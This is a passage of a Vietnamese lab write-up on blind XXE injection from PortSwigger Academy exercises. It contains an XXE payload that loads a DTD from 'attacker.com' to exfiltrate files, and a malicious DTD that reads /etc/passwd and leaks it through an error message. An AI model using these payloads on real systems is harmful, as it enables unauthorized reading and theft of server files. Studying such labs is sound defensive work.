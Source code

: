 Một số lưu ý:
- &#x25; là mã HTML encode của ký tự % giúp tránh lỗi cú pháp.
- Các parameter entity phải được gọi thì mới có tác dụng.
- Kẻ tấn công có thể triển khai file DTD trên server public và tham chiếu trong payload XML.
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]>
```

Khi server xử lý payload trên, nó tải file DTD từ attacker và thực hiện các lệnh khai báo, dẫn đến việc gửi nội dung file nhạy cảm về server attacker.

Lưu ý: Kỹ thuật này có thể không hoạt động nếu dữ liệu có chứa ký tự đặc biệt như dấu xuống dòng. Một giải pháp thay thế là sử dụng giao thức FTP thay vì HTTP để gửi dữ liệu ra ngoài.

## Exploiting blind XXE to retrieve data via error messages

### 6.Exploiting blind XXE to retrieve data via error messages
**Yêu cầu**
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

**Thực hiện**
- Sử dụng burp colaborator để kiểm tra lỗ hổng
![alt text](img/image-15.png)
![alt text](img/image-16.png)

- Tuy là thông báo lỗi nhưng bên Burp colaborator vẫn nhận được thông báo. Khi không có protocol, sau quá trình phân tích cú pháp XML, hệ thống đã ghép và truy cập tới `/home/peter/ftcx9mtq7g7r02xx8ihek1slscy3mtai.oastify.com`. Do không tìm thấy đường dẫn như trong ảnh nên trả về lỗi `java.io.FileNotFoundException`.
- Vậy thì ý tưởng của bài này sẽ là thay thế chuỗi `burp-colaborator.domain` bằng nội dung file cần đọc, và kích hoạt lỗi phân tích cú pháp, từ đó nội dung file sẽ được trang web hiển thị cùng với error message.
- Payload:
```XML
<!DOCTYPE foo [ <!ENTITY % xee SYSTEM "https://exploit-0acd004103df9276878b60eb01f7001c.exploit-server.net/exploit.dtd"> %xee; ]>
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

- file `.dtd`
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % xxe "<!ENTITY &#x25; show SYSTEM 'abc/%file;'>">
%xxe;
%show;

```

